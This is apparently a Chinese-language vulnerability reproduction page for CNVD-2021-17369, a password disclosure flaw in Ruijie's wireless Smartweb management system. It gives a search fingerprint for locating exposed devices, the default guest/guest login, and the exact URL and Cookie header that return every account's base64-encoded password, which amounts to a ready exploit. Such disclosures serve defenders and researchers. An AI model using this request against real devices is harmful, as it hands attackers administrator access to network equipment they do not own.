



锐捷 Smartweb管理系统 密码信息泄露漏洞 CNVD-2021-17369¶
漏洞描述¶
锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。
漏洞影响¶
锐捷网络股份有限公司 无线smartweb管理系统
网络测绘¶
title="无线smartWeb--登录页面"
漏洞复现¶
登录页面如下

默认存在 guest账户，账号密码为 guest/guest
其中登录的过程中搜索admin的数据后发现请求了一个文件 /web/xml/webuser-auth.xml，而且响应中包含了 admin密码的base64加密

解密就可以获得 admin管理员的密码，尝试直接请求
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml
Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest

直接获得所有的账户的等级标志和base64加密的账号密码